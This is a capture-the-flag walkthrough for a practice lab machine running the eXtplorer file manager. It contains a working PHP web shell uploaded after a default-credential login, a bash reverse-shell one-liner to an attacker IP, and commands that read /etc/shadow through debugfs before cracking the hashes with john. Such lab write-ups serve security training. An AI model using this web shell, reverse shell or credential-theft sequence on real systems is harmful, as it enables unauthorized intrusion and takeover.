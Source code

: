____

# Exploitation Guide For Extplorer

## Summary:

In this guide, we will exploit a file upload vulnerability in order to establish our initial foothold. We will escalate privileges by thoroughly enumerating the machine to discover a configuration file containing credentials and abuse the permissions of a user who is a member of a privileged group.

## Enumeration

We begin the enumeration process with an `Nmap` scan.

```
$ nmap -T4 192.168.120.42 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-11 06:30 MST
Nmap scan report for 192.168.120.42
Host is up (0.13s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We see ports `22` and `80` open and running on the target machine.

Starting with port `80`, we see the following Wordpress installation page.

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_160_image_1_ZDT4Ear2.png)

Turning our attention to content discovery, we use `gobuster` to enumerate interesting directories.

From the output we see the `/filemanager` directory and view the following login page:

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_160_image_2_EFT1HYV3.png)

We are able to authenticate with the credentials `admin:admin`.

After gaining access, we are greeted with a dashboard that allows us to upload and modify files.

We proceed by creating a file titled `shell.php`, with the following contents:

```
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

We have confirmed code execution as the `www-data` user.

![](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_160_image_3_VF7HYX2L.png)

Now we will attempt to spawn a reverse shell.

We begin by setting up a listener on our attack machine.

```
$ nc -lvnp 443
listening on [any] 443 ...
```

Now we create a file containing a typical reverse shell payload.

```
$ cat revshell.sh 
 bash -i >& /dev/tcp/10.9.1.11/4444 0>&1
```

Now we start a python webserver on our attack machine.

```
$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Finally we receive a response in our listener as `www-data`.

```
┌──(kali㉿kali)-[~]
└─$ sudo nc -nlvp 4444
listening on [any] 4444 ...
...
www-data@dora:/var/www/html$ 
```

# Privilege Escalation

While enumerating for any potentially interesting files we discover a set of credentials in `/var/www/html/filemanager/config/.htusers.php`.

```
www-data@dora:/var/www/html/filemanager/config$ cat .htusers.php
cat .htusers.php
<?php 
	// ensure this file is being included by a parent file
	if( !defined( '_JEXEC' ) && !defined( '_VALID_MOS' ) ) die( 'Restricted access' );
	$GLOBALS["users"]=array(
	array('admin','21232f297a57a5a743894a0e4a801fc3','/var/www/html','http://localhost','1','','7',1),
	array('dora','$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS','/var/www/html','http://localhost','1','','0',1),
);
```

From the output we see the hash: `$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS`

We proceed by copying the file to our attack machine and use `john` to crack the hash.

```
$ cat hash      
$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS
$ john hash --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 256 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
doraemon         (?)     
1g 0:00:00:07 DONE (2023-04-11 05:18) 0.1369g/s 207.1p/s 207.1c/s 207.1C/s goober..something
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

From the output we see the password `doraemon`.

We are now able to authenticate as the `dora` user.

Using the `id` command, we notice that we are a member of the `disk` group.

```
www-data@dora:/home su dora
su dora
Password:
...
$ id
id
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)
```

This privilege is allows us to access all data inside of the machine.

```
dora@dora:/home$ df -h
df -h
Filesystem                         Size  Used Avail Use% Mounted on
udev                               947M     0  947M   0% /dev
tmpfs                              199M  1.2M  198M   1% /run
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.1G  4.3G  55% /
tmpfs                              992M     0  992M   0% /dev/shm
tmpfs                              5.0M     0  5.0M   0% /run/lock
tmpfs                              992M     0  992M   0% /sys/fs/cgroup
/dev/loop0                          62M   62M     0 100% /snap/core20/1611
/dev/loop1                          68M   68M     0 100% /snap/lxd/22753
/dev/loop2                          50M   50M     0 100% /snap/snapd/18596
/dev/loop3                          92M   92M     0 100% /snap/lxd/24061
/dev/loop4                          64M   64M     0 100% /snap/core20/1852
/dev/sda2                          1.7G  209M  1.4G  13% /boot
tmpfs                              199M     0  199M   0% /run/user/0
dora@dora:/home$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs 1.45.5 (07-Jan-2020)
debugfs:
```

We proceed by viewing the `/etc/passwd` and `/etc/shadow` files on the system.

```
debugfs:  cat /etc/shadow
cat /etc/shadow
root:$6$a2QQgnuRVVKcj4Td$RV9HstTFog5YhroH0sbXbyPoTLnhd8fWFZVCFgumPxkevkALWo17xJ05VPvJbofR0FKy5en16/
....
debugfs:  cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
....
```

We copy the files to our attack machine, and proceed to format them using the `unshadow` command in order to crack the hashes using `john`.

```
$ cat passwd 
root:x:0:0:root:/root:/bin/bash
....
$ cat shadow 
root:$6$a2QQgnuRVVKcj4Td$RV9HstTFog5YhroH0sbXbyPoTLnhd8fWFZVCFgumPxkevkALWo17xJ05VPvJbofR0FKy5en16/QbuVSiK290i1:19458:0:99999:7:::
....
```

Now we crack the hashes using `john`.

```
~ john unshadow --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
doraemon         (dora)  
explorer         (root)
....   
```

From the output we see the password `explorer`.

We can authenticate using `root:explorer` in order to obtain root access.

```
dora@dora:/home$ su
su
Password: explorer

root@dora:/home# id
id
uid=0(root) gid=0(root) groups=0(root)
```